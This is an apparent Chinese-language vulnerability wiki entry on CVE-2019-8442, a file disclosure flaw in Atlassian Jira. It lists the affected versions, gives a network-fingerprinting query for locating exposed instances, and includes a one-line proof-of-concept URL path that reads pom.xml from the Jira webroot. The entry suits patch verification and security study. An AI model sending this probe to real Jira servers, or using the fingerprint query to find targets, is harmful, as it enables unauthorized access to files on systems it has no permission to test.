 # Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

<a-checkbox checked>Atlassian Jira < 7.13.4</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.00-8.0.4</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.1.0-8.1.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385.png)

验证POC

```java
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![img](/assets/PeiQi-Wiki/img/1651291176483-c9859fd7-d8a8-442f-9524-0e84f6137322.png)